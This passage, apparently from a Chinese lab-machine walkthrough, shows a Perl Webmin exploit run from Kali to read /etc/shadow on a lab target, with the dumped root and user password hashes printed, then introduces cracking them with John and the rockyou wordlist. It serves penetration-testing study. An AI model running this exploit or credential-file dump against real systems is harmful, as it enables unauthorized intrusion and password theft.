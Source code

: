 ```bash
┌──(kali㉿kali)-[~]
└─$ perl 2017.pl 10.10.10.16 10000 /etc/shadow 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 10.10.10.16 on port 10000!
FILENAME:  /etc/shadow

 FILE CONTENT STARTED
 -----------------------------------
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::

 -------------------------------------
```

`/etc/shadow`这个文件想要获取到，一般是需要一定权限的

**john密码破解**

在vulhub靶机中涉及到密码破解的地方，通常都使用rockyou字典，这是靶机制作者为了给我们节省时间的操作，不过实际渗透测试中密码破解的过程可能非常长，也和字典的选取强相关。
